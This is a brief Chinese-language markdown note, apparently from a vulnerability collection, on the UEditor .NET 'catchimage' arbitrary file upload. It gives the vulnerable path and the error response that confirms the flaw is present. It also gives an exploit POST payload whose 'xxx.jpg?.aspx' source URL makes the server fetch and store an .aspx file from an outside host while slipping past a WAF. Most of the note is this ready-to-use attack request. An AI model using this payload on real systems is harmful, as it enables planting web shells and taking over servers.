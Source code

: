 # Ueditor

---

- 影响版本：net

- 路径：/Ueditor/net/controller.ashx?action=catchimage

- 访问效果如下为存在漏洞：

  ```
  {"state":"参数错误：没用指定抓取源"}
  ```
  
- 利用

  绕过waf检测，xxx.jpg?.aspx以为是xxx.jpg，但其实是aspx

  ```
  /Ueditor/net/controller.ashx?action=catchimage
  postdata:
  source[]=https://xxxx/xxx.jpg?.aspx
  ```

  